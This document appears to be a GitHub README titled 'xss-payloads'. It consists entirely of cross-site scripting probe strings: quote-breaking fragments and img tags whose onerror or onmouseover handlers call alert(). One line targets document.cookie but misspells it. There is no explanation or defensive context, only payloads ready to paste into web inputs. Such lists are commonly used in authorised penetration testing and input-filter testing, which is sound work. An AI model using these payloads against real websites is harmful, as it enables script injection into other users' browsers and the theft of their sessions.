 # xss-payloads
> '; alert(documment.cookie);//
> 
> XSS1"<img/src=x onmouseover=alert(/XSS1test/)//
> 
> XSS2"<img src=x onmouseover=alert('XSS1test')//
> 
> XSS3"<img src=x onmouseover=alert("XSS1test")//
> 
> test'-alert('XSS2test')-'xss
> 
> test'-alert(/XSS2test/)-'xss
> 
> test'/alert(/XSS2test/)/'xss
> 
> test"><img/src=x onerror=alert(XSS3test)>'
> 
> test"><img/src=x onerror=alert('XSS3test')>'
> 
> test"><img src=x onmouseover=alert('XSS3test')>'
> 
> <img src=x onmouseover=alert('XSS3test')>'
> 
> <img/src=x onmouseover=alert(1234)>'
